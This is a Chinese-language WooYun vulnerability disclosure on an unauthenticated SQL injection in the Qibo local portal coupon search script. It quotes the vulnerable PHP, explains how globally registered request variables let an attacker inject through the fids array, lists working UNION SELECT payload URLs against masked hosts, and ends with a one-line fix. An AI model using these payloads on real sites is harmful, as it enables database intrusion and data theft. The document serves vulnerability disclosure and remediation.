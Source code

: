 ## WooYun-2014-79938：齊博地方門戶系統SQL注入漏洞（無需登錄可批量）


### 詳細說明
問題出在齊博搜索的位置，也就是：HTTP：//**.**.**.**/coupon/s.php

```php
if($action=="search"){

    if(!$webdb[Info_allowGuesSearch]&&!$lfjid){

        //showerr("請先登錄");

    }

    $keyword=trim($keyword);

    $keyword=str_replace("%",'\%',$keyword);

    $keyword=str_replace("_",'\_',$keyword);

    if(!$keyword){

        showerr('關鍵字不能為空!');

    }

    $rows=10;

    if(!$page){

        $page=1;

    }

    $min=($page-1)*$rows;

    $type = ($type=='username') ? $type : "title";

    if($fid){

        $querys = $db->query("SELECT fid FROM {$_pre}sort WHERE `fup`='$fid'");

        while($rs = $db->fetch_array($querys)){

            $fids[]=$rs[fid];

        }

        $fids=implode(",",$fids);

        if($fids){

            $sql_fid = " AND `fid` IN($fids) ";

        }else{

            $sql_fid = " AND `fid`='$fid' ";

        }

    }else{

        $sql_fid = "";

    }
```
代碼如上，這個注入之所以不需要登錄...是因為源碼裡把showerr（"請先登錄"）;註釋掉了。
繼續往下看，看到這個而語句：
```php
while（$ rs = $ db-> fetch_array（$ querys））{
$ FIDS[] =$ RS[FID];
}
```

查詢出來fid，將$fid放進$fids陣列中。之後用implode將$fids陣列變成字符串，放進IN子句中，IN子句並沒有單引號限制。
看起來沒問題，因為$fids是$rs[fid]組成的陣列。但這裡很重要的是，了解齊博的都知道，齊博在inc/common.inc.php中有這樣一段：

```php
foreach($_COOKIE AS $_key=>$_value){

    unset($$_key);

}

foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

}
```

等於說將`$_GET/$_POST/$_COOKIE`註冊成全局變數了。所以$fids的初值我們是可以控制的，這個while語句前也沒有清除$fids，只是往這個陣列裡加$fid。
最後導致了注入。
我們可以看看演示站：

```sh
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]='&fids[]=xx

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23
```

### 漏洞證明

```sh
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23
```
![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.16/3.16-1.jpg)

這個洞利用簡單，無需登錄，可以批量。

```
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**//coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23
```

### 修復方案
unset($fids);之後再進入while循環。
